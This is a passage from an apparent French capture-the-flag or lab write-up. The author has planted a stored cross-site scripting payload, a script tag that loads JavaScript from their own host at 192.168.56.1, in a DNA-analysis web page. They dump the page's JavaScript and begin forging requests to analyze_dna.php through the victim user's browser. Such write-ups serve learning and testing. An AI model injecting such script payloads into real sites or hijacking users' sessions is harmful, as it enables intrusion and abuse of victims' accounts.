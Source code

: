 ```html
                <script src="http://192.168.56.1/test2.js"></script>                                                   
                </span>                                                                                                
            </td>                                                                                                      
            <td id="dna_res_id_1009"></td>                                                                             
            <td><button id="1009" onclick="edit_dna(this);">Analyze</button></td>                                      
        </tr>                                                                                                          
    </table><br />                                                                                                     
    <form action="" method="POST"><input name="logout" type="submit" value="Logout" /></form>                          
</body>                                                                                                                
                                                                                                                       
</html>
```

C'est la page sur laquelle notre injection a lieu (on voit d'ailleurs mon code). Je procéde à la même étape mais pour le fichier JS qui est utilisé.

Le contenu dumpé est le suivant :

```js
function edit_dna(elem) {
    var id = elem.id;
    var val = document.getElementById('dna_string_id_' + id).innerHTML;
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "analyze_dna.php");
    xhr.setRequestHeader('Content-type', 'application/json');
    xhr.onreadystatechange = function() {
        if (xhr.readyState == 4 && xhr.status == 200) {
            document.getElementById('dna_res_id_' + id).innerHTML = xhr.responseText;
        }
    }
    xhr.send(JSON.stringify({"id":id,"val":val}));
}
```

Donc la logique de l'analyse ADN est faite par le script PHP `analyze_dna.php`.

J'ai essayé de communiquer avec lui via `curl` mais impossible d'obtenir le moindre résultat même en passant mon token JWT.

L'authentification qui a lieu sous le dossier `/portal` doit être différente ou n'accepter que le compte de *Alphonse*.

Par conséquent je n'ai pas trop le choix, je vais forger la requête vers le script PHP en passant par son navigateur. J'ai noté que *Alphonse* avait marqué son ADN comme étant *Superb* (le prétentieux). Voyons voir si j'envoie la même chaine ADN mais avec mon identifiant 42 :
